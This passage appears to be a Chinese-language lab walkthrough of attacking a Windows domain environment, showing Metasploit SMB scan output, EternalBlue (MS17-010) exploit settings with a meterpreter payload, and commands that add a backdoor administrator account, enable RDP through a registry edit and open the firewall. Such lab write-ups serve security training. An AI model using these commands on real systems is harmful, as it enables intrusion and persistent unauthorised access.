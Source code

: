 执行结果：

```csharp
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.52.141:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)Windows 2003 (build:3790) (name:ROOT-TVI862UBEH) (domain:GOD)
[+] 192.168.52.141:445    -   Host is running SMB Detected (versions:1) (preferred dialect:) (signatures:optional)Windows 2003 (build:3790) (name:ROOT-TVI862UBEH) (domain:GOD)
[*] 192.168.52.141:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

尝试使用永恒之蓝攻击

```csharp
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
set rhost 192.168.52.141
set lport 5555
```

其实是可以攻击成功的，不知道为啥我这里一直不行

除了直接攻击，还使用`auxiliary/admin/smb/ms17_010_command`可以执行命令

```csharp
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.52.141
set command whoami
run
```

```csharp
set command net user blckder02 8888! /add添加用户；
set command net localgroup administrators blckder02 /add添加管理员权限；
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'执行命令开启3389端口，这里要么用单引号把命令引住，要么用反斜杠对反斜杠和引号进行转义，否则会出错；
```

## 攻击域控

域控是windows server 2008也是可以利用永恒之蓝攻击的，但是我这里不知道什么情况无法攻击成功，但是可以执行命令

![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2031.png)

跟前面一样，创建用户加入管理员组，关闭防火墙或者放行3389端口，直接远程桌面连接

- 使用永恒之蓝攻击的机器都是system权限的不需要进行提权